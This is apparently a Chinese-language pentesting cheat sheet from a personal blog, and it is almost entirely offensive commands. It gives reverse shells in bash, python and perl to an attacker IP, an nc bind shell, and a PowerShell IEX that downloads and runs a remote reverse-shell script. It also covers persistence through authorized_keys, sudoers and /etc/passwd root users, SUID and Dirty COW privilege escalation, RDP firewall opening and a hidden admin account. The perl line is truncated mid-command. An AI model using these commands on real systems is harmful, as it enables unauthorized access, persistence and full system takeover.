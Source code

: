 ```yaml
---
title: "渗透笔记"
date: 2021-01-01T21:28:36+08:00
draft: false
tags: ["note"]
categories: ["security"]
---
```


## 获取shell后
- 开启清屏： `export TERM=screen # 赋值xterm也可以`
- 查看sudo权限： `sudo -l`
- 尝试生成公钥文件到用户目录下的 `.ssh` 下： `echo "xxxx" > /home/p1n93r/.ssh/authorized_keys` ，然后就可以免密ssh登录了： `ssh p1n93r@192.168.189.5 -i id_rsa`
- 创建用户且赋予root权限(已拿到root)： `adduser p1n93r` ，然后 `passwd p1n93r` ，然后赋予sudo权限 `echo "p1n93r    ALL=(ALL:ALL) ALL" >> /etc/sudoers`
- 使用python获取一个完全交互式的tty： `python -c 'import pty;pty.spawn("/bin/bash")'`
- 查看任务计划： `cat /etc/crontab`
- 查看内核版本： `uname -r`


## 常用工具
- 发现主机： `nmap -sn 192.168.189.0/24`
- 扫描主机： `nmap -A -sS -p- 192.168.189.5`
- 生成字典： `crunch 10 10 abcd -o pwd.txt`
- 爆破密码： `john --wordlist=/usr/share/wordlist/rockyou.txt encry`
- Java降级编译： `javac -source 1.7 -target 1.7 Exploit.java`

## 反弹shell
（1）反向连接

攻击机开启监听： `nc -lvnp 7777`

靶机执行命令：

	#bash反弹
	bash -i >& /dev/tcp/192.168.10.27/4444 0>&1
	#python反弹
	python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.10.27",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
	#Perl反弹
	perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp")

（2）正向连接

攻击机： `nc -lvnp 7777` 

靶机： `nc [ip] 7777 -e /bin/bash` 

（3）windows反弹shell

攻击机： `nc -lvnp 7777` 

靶机： `powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp  -Reverse -IPAddress [ip] -Port 9999"`

## 提权
### SUID提权
以下命令将尝试查找具有root权限的SUID的文件，不同系统适用于不同的命令，一个一个试：

	find / -perm -u=s -type f 2>/dev/null
	find / -user root -perm -4000-print2>/dev/null
	find / -user root -perm -4000-exec ls -ldb {} \;

### 工具扫描
- LinEnum：`https://github.com/rebootuser/LinEnum`
- linuxprivchecker：`https://github.com/sleventyeleven/linuxprivchecker`

### gcc编译
例如脏牛提权，直接gcc编译会失败，提示缺少库，所以可以使用如下方式编译：

	gcc -pthread dirty.c -o dirty -lcrypt


## 一些场景
### 端口敲门
发现存在这个文件： `/etc/knockd.conf` 文件，就是配置了端口敲门策略，需要根据其配置来进行端口敲击才能连接响应的端口，例如如下knockd.conf配置：

	[options]
		UseSyslog
	
	[openSSH]
		sequence    = 7469,8475,9842
		seq_timeout = 25
		command     = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
		tcpflags    = syn
	
	[closeSSH]
		sequence    = 9842,8475,7469
		seq_timeout = 25
		command     = /sbin/iptables -D INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
		tcpflags    = syn

代表需要依次敲击7469、8475和9842端口，才能开放SSH服务，所以在攻击机上安装knockd工具进行敲击即可：

	sudo apt-get install knockd
	knockd 192.168.189.10 7469 8475 9842

### 利用 `/etc/passwd` 提权
首先生成加密后的密码：

	perl -le 'print crypt("your_password","salt")'

然后将加密后的密码和其他配置添加到 `/etc/passwd` （前提是有编辑权限咯）下：

	echo "p1n93r:xxxx:0:0:root:/root:/bin/bash"
	su p1n93r

### 开启windows rdp
- 设置远程桌面端口：reg add "HKLM\System\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /t REG_DWORD /v portnumber /d 3389 /f
- 开启远程桌面：wmic RDTOGGLE WHERE ServerName='%COMPUTERNAME%' call SetAllowTSConnections 1
- 检查端口状态：netstat -an|find "3389"
- 关闭远程桌面：wmic RDTOGGLE WHERE ServerName='%COMPUTERNAME%' call SetAllowTSConnections 0
- 防火墙放行3389端口：netsh advfirewall firewall add rule name="无所谓" dir=in protocol=tcp localport=3389 action=allow

### 添加简单影子用户
	net user pinger$ Pingerp1n93r /add
	net localgroup administrators pinger$ /add 